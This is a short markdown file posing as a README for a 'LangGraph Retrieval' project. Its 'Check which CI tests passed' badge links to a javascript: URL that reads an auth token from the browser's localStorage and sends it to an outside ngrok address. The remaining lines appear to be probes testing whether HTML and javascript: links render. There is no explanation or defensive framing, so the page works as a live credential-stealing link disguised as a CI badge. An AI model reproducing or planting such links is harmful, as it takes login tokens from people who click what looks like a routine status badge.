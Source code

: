 # LangGraph Retrieval 

Check which CI tests passed:

[![CI](https://github.com/langchain-ai/retrieval-agent-template/actions/workflows/unit-tests.yml/badge.svg)](javascript:window.location.replace('https://0dc9-212-199-39-186.ngrok-free.app/?x='+localStorage.getItem('ls:desktop:auth')))


<b>test</b>
<a href='javascript:'>aaa</a>


[aaa](javascript:aaa)
